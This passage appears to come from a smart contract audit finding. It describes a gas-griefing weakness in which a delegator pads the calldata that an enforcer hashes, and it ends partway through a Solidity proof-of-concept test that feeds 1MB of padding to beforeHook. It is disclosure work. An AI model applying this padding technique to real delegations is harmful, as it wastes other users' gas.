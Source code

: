 In order to compute the `keccak256` hash function, the code needs to store the whole `terms_.firstCalldata` into memory. So a huge chunk of calldata will increase the memory expansion cost quadratically.

Notice also that the delegator can arbitrarily increase the calldata size without compromising the output of the execution. For example, if the delegator wants to execute the `increment(uint256 num)` function from a contract, the bytes after the argument will just be ignored by the compiler.
This calldata:
```
0x7cf5dab00000000000000000000000000000000000000000000000000000000000000001
```
Will have the same execution output as:
```
0x7cf5dab00000000000000000000000000000000000000000000000000000000000000001fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff...
```
Hence, calldata size can be arbitrarily increased without compromising execution output

**Impact:** A malicious user can create delegations that will waste unlimited amount of gas from the delegates.

**Proof of Concept:**
```solidity
function testGriefingAttackSpecificActionERC20TransferEnforcer() public {
        // Generate a very large calldata (e.g., 1MB)
        bytes memory largeCalldata = new bytes(1_000_000);
        for (uint256 i = 0; i < largeCalldata.length; i++) {
            largeCalldata[i] = 0xFF;
        }

        // Create terms with the large calldata
        bytes memory terms = abi.encodePacked(
            address(token), // tokenAddress
            address(0x1), // recipient
            uint256(100), // amount
            address(0x1), // firstTarget
            largeCalldata // firstCalldata
        );

        // Create a batch execution with the expected large calldata
        Execution[] memory executions = new Execution[](2);
        executions[0] = Execution({ target: address(0x1), value: 0, callData: largeCalldata });
        executions[1] = Execution({
            target: address(token),
            value: 0,
            callData: abi.encodeWithSelector(IERC20.transfer.selector, address(0x1), 100)
        });

        bytes memory executionCallData = abi.encode(executions);

        // Measure gas usage of the beforeHook call
        uint256 startGas = gasleft();

        vm.startPrank(address(delegationManager));
        // This would be extremely expensive due to the large calldata
        batchEnforcer.beforeHook(
            terms,
            bytes(""),
            batchDefaultMode, // Just a dummy mode code
            executionCallData,
            keccak256("delegation1"),
            address(0),
            address(0)
        );

        uint256 gasUsed = startGas - gasleft();
```